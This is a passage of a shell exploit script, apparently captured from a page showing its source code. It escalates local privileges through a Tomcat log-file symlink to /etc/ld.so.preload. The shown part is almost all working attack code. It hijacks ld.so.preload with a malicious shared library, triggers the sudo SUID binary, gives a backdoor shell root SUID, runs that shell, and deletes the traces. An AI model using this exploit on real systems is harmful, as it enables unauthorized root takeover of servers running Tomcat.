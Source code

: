 fi
 
# Symlink the log file to ld.so.preload
rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG
if [ $? -ne 0 ]; then
    echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
    cleanexit 3
fi
echo -e "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
 
# Wait for Tomcat to re-open the logs
echo -ne "\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart..."
echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)"
while :; do 
    sleep 0.1
    if [ -f /etc/ld.so.preload ]; then
        echo $PRIVESCLIB > /etc/ld.so.preload
        break;
    fi
done
 
# /etc/ld.so.preload file should be owned by tomcat user at this point
# Inject the privesc.so shared library to escalate privileges
echo $PRIVESCLIB > /etc/ld.so.preload
echo -e "\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`"
echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"
 
# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
sudo --help 2>/dev/null >/dev/null
 
# Check for the rootshell
ls -l $BACKDOORPATH | grep rws | grep -q root
if [ $? -eq 0 ]; then 
    echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
    echo -e "\n\033[94mPlease tell me you're seeing this too ;) \033[0m"
else
    echo -e "\n[!] Failed to get root"
    cleanexit 2
fi
 
# Execute the rootshell
echo -e "\n[+] Executing the rootshell $BACKDOORPATH now! \n"
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
$BACKDOORPATH -p
 
# Job done.
cleanexit 0

[1]: http://ojyzyrhpd.bkt.clouddn.com/20161012/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20161012/2.png